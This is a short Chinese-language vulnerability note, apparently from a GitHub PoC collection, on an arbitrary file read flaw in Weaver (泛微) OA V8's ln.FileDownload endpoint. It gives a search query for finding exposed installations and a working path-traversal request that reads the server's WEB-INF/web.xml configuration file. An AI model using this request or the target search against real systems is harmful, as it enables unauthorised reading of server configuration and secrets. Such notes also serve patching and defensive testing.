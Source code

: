 # 

# 泛微OA ln.FileDownload 任意文件读取漏洞

## 漏洞描述

泛微OA ln.FileDownload 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
泛微OA V8
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登陆页面

![image-20220520141045902](./images/202205201410983.png)

验证POC

```
/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml
```

![image-20220520141058500](./images/202205201410567.png)
